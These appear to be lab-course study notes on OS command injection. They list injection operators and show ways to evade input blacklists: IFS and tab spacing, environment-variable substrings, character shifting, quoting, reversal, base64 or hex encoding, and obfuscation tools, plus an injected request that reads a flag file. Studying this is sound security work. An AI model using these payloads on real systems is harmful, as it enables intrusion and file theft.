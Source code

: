 ### Content
- [Command Injection Methods](#command-injection-methods)
- [Evasion](#evasion)
	- [Substring Technique](#substring-technique)
		- [Linux](#linux)
		- [Windows](#windows)
	- [Character Shifting](#character-shifting)
	- [Obfuscation Techniques](#obfuscation-techniques)
	- Tools

> [!Note]
> For mor evasion techniques [PayloadsAllTheThings/Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

---
#### Command Injection Methods
| **Injection Character** | **URL-Encoded Character** | **Executed Command**                       | Restrictions            |
| ----------------------- | ------------------------- | ------------------------------------------ | ----------------------- |
| ;                       | %3b                       | Execute command1 and then command2         | Not working in CMD      |
| \n                      | %0a                       | Both                                       |                         |
| &                       | %26                       | Execute command1 in the background         |                         |
| \|                      | %7c                       | Pipe the output of command1 into command2  |                         |
| &&                      | %26%26                    | Execute command2 only if command1 succeeds |                         |
| \|\|                    | %7c%7c                    | Execute command2 only if command1 fails    |                         |
| ``                      | %60%60                    | Both                                       | Sub-Shell for Unix-Only |
| $()                     | %24%28%29                 | Both                                       | Sub-Shell for Unix-Only |
> [!Warning]
> The `\n` on burp suite  gets URL-Encoded as separate characters to `%5C%6E`

---
# Evasion
- **Blacklist** with PHP code example:
	``` PHP
	$blacklist = ['&', '|', ';', ...SNIP...];
	foreach ($blacklist as $character) {
	    if (strpos($_POST['ip'], $character) !== false) {
	        echo "Invalid input";
	    }
	}
	$commands_blacklist = ['whoami', 'cat', ...SNIP...];
	foreach ($commands_blacklist as $word) {
	    if (strpos('$_POST['ip']', $word) !== false) {
	        echo "Invalid input";
	    }
	}
	```
- If the error message displayed in field where the output is displayed, That mean it has been detected by the backend language like `PHP`.
- If the error message displayed a different page, with information like our IP and our request, this may indicate that it was denied by a WAF.
- If the space character is blacklisted even if it's encoded `+`, Try:
	- `%09` tabs (Works on Linux and Windows). `127.0.0.1%0a%09`
	- `${IFS}` Linux Environment Variable may also work since its default value is a space and a tab. `127.0.0.1%0a${IFS}`
	- `Bash Brace Expansion`, which automatically adds spaces between arguments wrapped between braces. `127.0.0.1%0a{ls,-la}`
### Substring Technique
We can use a substring from an environment variable if typing that substring directly is blacklisted:
##### Linux
- Print all env vars with the command `printenv`, Example: `127.0.0.1%0a${IFS}printenv`
	- Specifying `start` index and `length` for substring.
	- `${PATH:0:1}` will be `/`, Ex: `127.0.0.1%0als${PATH:0:1}` to list the root directory.
	- `${LS_COLORS:10:1}` will be `;`, Ex: `127.0.0.1${LS_COLORS:10:1}${IFS}` will result in `127.0.0.1; `
##### Windows
- `CMD`: Use `SET` command to list all env vars.
	- we can `echo` a Windows variable (`%HOMEPATH%` -> `\Users\comp-user`)
	- Specify a starting position (`~6` -> `\comp`)
	- Specify a negative end position, which in this case is the length of the username `comp-user` (`-9` -> `\`)
	- `echo %HOMEPATH:~6,-9%` will result in `\`
- `PowerShell`: Use `Get-ChildItem env:` to list all env vars.
	- A word in `Powershell` is considered an array, so we can specify the index of the character we need.
		- `$env:HOMEPATH[0]` will result in `\`
### Character Shifting
Science every character has its own ascii code, Write a specific character with intention to change its ascii value to become another character when processed.
- Linux (Shifting characters by 1) 
	``` bash
	$ man ascii     # To display the ascii table
	$ echo $(tr '!-}' '"-~'<<<[) # [ (ascii:133) will become \ (ascii:134) 
	$ echo $(tr '!-}' '"-~'<<<:) # : (ascii:72) will become ; (ascii:73)
	$ echo $(tr '!-}' '"-~'<<<.) # . will become /
	```
- Windows (Shifting character by 1)
	- PowerShell
		``` Powershell
		PS C:\Users\user> [char](([int][char]'[') + 1) # [ (ascii:133) will become \ (ascii:134) 
		PS C:\Users\user> [char](([int][char]':') + 1) # : (ascii:72) will become ; (ascii:73)
		```
### Obfuscation Techniques
- Ignored characters by command shells:
	- Linux & Windows (Bash and PowerShell)
		-  Characters like `'`, `"`, Example: `whoami` = `w'h'o'am'i` = `w"h"o"am"i`
	- Linux
		- Characters like `\`, `$@`, Example: `whoami` = `who$@ami` = `w\ho\am\i`
	- Windows
		- Characters like `^`, Example: `whoami` = `who^ami`
- Case Manipulation:
	- Linux (Don't forget to replace spaces if they are blocked)
		- Commands for Bash are case-sensitive, workarounds: 
			- `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`
			- `$(a="WhOaMi";printf %s "${a,,}")`
	- Windows (PowerShell and CMD)
		- Commands for PowerShell and CMD are case-insensitive, Example: `WhOaMi`= `WHOAMI`
- Reversed Commands:
	- Linux
		- To reverse a command `echo 'whoami' | rev`
		- To reverse the reversed `$(rev<<<'imaohw')`
	- Windows
		- To reverse a string`"whoami"[-1..-20] -join ''`
		- Execute a reversed command directly with PowerShell sub-shell `iex "$('imaohw'[-1..-20] -join '')"`
- Encoded Commands:
	- Linux
		- b64 encoding then decode and execute using `base64` and `openssl`
			- ``echo -n 'whoami' | base64``
				- `bash<<<$(base64 -d<<<d2hvYW1p)`
				- `bash<<<$(openssl base64 -d<<<d2hvYW1p)`
			- convert the string from `utf-8` to `utf-16` before we `base64` it: `echo -n whoami | iconv -f utf-8 -t utf-16le | base64`
		- Hex encoding with `xxd`
			- `echo -n 'whoami' | xxd -p`
				- `bash<<<$(xxd -r -p<<<'77686f616d69')`
		- Combine b64 encoding with Hex encoding
			1. Encode the original command in Base64: `echo -n 'whoami' | base64`
			2. Encode the Base64 output in Hex: `echo -n 'd2hvYW1p' | xxd -p`
			3. Decode and Execute: `bash<<<$(base64 -d<<<$(xxd -r -p<<<'6432687659573170'))`
	- Windows
		- b64 encoding
			- `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`
				- `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"`
### Tools
- Linux ([Bashfuscator](https://github.com/Bashfuscator/Bashfuscator))
	``` bash
	$ git clone https://github.com/Bashfuscator/Bashfuscator
	$ cd Bashfuscator
	$ pip3 install setuptools==65
	$ python3 setup.py install --user
	$ ./bashfuscator -c 'cat /etc/passwd'
	$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
	
	[+] Mutators used: Token/ForCode
	[+] Payload:
	eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
	[+] Payload size: 104 characters
	# Test the outputted command with bash -c ''
	$ bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'
	```
- Windows ([DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation))
	``` bash
	PS > git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
	PS > cd Invoke-DOSfuscation
	PS > Import-Module .\Invoke-DOSfuscation.psd1
	PS > Invoke-DOSfuscation
	Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
	Invoke-DOSfuscation> encoding
	Invoke-DOSfuscation\Encoding> 1
	
	...SNIP...
	Result:
	typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\...SNIP...
	```
---
`GET /files/index.php?to=&from=flag.txt${IFS}%24%28c'a't${IFS}${PATH:0:1}flag.txt%29&finish=1&move=1 HTTP/1.1`
